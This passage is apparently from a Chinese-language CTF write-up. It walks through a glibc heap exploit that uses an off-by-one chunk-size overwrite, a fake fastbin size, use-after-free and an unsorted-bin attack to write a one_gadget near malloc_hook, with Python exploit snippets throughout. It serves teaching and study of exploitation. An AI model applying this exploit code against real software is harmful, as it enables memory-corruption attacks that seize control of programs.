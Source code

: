 

```
libc : 0x7ffff7a23d28 ("malloc_hook")
```

这个时候我们的 FD 已经在 malloc hook 附近，为之后的爆破做准备。

### 第二步

我们只需要通过 释放一块0x71大小的 chunk 就能完成 fix。



### 第三步

利用 unsortebin 的攻击技巧，并使用编辑功能将 onegadet 写入	。



## 分析 exp



分配 `3` 个 `chunk` ，在 `B + 0x78` 处设置 `p64(0x61)` ， 作用是 `fake size` ,用于后面 的 `fastbin attack`



```python
create(0x18,0) # 0x20
create(0xc8,1) # d0
create(0x65,2)  # 0x70

info("create 2 chunk, 0x20, 0xd8")
fake = "A"*0x68
fake += p64(0x61)  ## fake size
edit(1,fake)
info("fake")
```

释放掉 `B` , 然后分配同样大小再次分配到 `B` , 此时 `B+0x10` 和 `B+0x18` 中有 `main_arean` 的地址。分配 `3` 个 `fastbin` ，利用 `off by one` 修改 `B->size = 0x71`

```
free(1)
create(0xc8,1)

create(0x65,3)  # b
create(0x65,15)
create(0x65,18)

over = "A"*0x18  # off by one
over += "\x71"  # set chunk  1's size --> 0x71
edit(0,over)
info("利用 off by one ,  chunk  1's size --> 0x71")
```

生成两个 `fastbin` ，然后利用 `uaf` ，部分地址写，把 `B` 链入到 `fastbin`
